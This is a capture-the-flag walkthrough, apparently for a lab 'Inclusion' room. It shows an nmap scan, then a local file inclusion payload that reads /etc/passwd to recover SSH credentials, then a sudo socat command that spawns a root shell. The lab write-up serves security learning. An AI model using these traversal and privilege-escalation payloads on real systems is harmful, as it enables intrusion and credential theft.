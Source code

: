 # LFI Vulnerability

[!If you want to check my notes about IDORs](https://github.com/itKhalid143/websec100/blob/main/Days/Day8-LFI%20%26%26%20RFI.md)

***

## user.txt

First We make an nmap scan!
```java
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH1X4Cqbxb5okQZBN3LvsIM8dYZOxeMWlReUkWWp+ICQ+6RjVs+bSbShCPac1Zc+lbnfHte1ZRtMW8a3OodW02+8PXcDbZlmMNMWUQmM76D2NZz28PDC7vouYqSQGt6J6gfsTq2YqCMVPU28uoJ/Qvg5C6hM3oFFDztV2BN7Pj+SgZ8a5htxv5wgn/PtWju2CJCQzPhLUrkAlrSb97/YQcvtjwXUGzKGHo62Cl6GINLm3nAVqJnNpm7aWcKowdfnEsrp+S41W5xV1gl4CyvE9usk5LfQwlPDF50FCgzsidA7mn4NbTukdTsNMAOTe0oAmjXAE0q/KCT076stYjRphX
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPvYRKovqOIYhJN1NV8r3T3YTa4N40XFZaWSQjuYyZIsuL6D8Xn9C4v925gPkS/wZyYBh7CRt6CcSbd2ekPByzo=
|   256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd782HHJj9kHBKUMOUOgfWVBU9LdeGrlTDQ+Z0hD8yI
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### After our result, we can see we have 2 open ports! which are 22/80

### Let check the Website!


- My eyes went directly to ```LFI-attack``` post, as this room was for LFI.
![****](/Pictures/1.PNG)

- First thing we can see, this text is weird! then I thought that could be a file loaded from the host using execute function! Then why not Input different path in the Url! and this was my payload:

```
http://10.10.216.81/article?name=../../../../etc/passwd
```
![****](/Pictures/2.PNG)

- And here we have the username and the password! let try to SSH!
```
ssh falconfeast@10.10.216.81 
```
### Boom! We're in!

![****](/Pictures/user.PNG)

## root.txt

- First thing I go is! 
```
sudo -l
```
the result was!

![****](/Pictures/root.PNG)

```java
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Here we can run ```/usr/bin/socat``` as root! a quick search on gtfobins, the payload is ready
```php
sudo /usr/bin/socat stdin exec:/bin/sh
``` 

![****](/Pictures/root2.PNG)

#Thank you!